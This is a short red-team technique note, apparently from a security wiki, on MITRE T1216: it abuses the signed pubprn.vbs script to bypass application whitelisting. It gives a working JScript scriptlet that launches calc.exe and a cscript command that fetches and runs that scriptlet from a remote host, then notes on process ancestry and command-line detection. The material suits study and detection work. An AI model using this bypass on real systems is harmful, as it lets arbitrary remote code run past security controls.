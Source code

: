 ```yaml
---
description: >-
  Signed Script Proxy Execution - bypass application whitelisting using
  pubprn.vbs
---
```


# T1216: pubprn.vbs Signed Script Code Execution

## Execution

Using pubprn.vbs, we will execute code to launch calc.exe. First of, the xml that will be executed by the script:

{% code title="http://192.168.2.71/tools/mitre/proxy-script/proxy.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"   
    >
</registration>

<script language="JScript">
<![CDATA[
        var r = new ActiveXObject("WScript.Shell").Run("calc.exe");    
]]>
</script>

</scriptlet>
```
{% endcode %}

{% code title="attacker@victim" %}
```csharp
cscript /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://192.168.2.71/tools/mitre/proxy-script/proxy.sct
```
{% endcode %}

## Observations

Calc.exe gets spawned by cscript.exe which immediately closes leaving the calc.exe process orphan:

![](../../.gitbook/assets/pubprn-csript.png)

![](../../.gitbook/assets/pubprn-ancestry.png)

Monitoring commandlines can be useful in detecting the script being abused:

![](../../.gitbook/assets/pubprn-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1216" caption="" %}

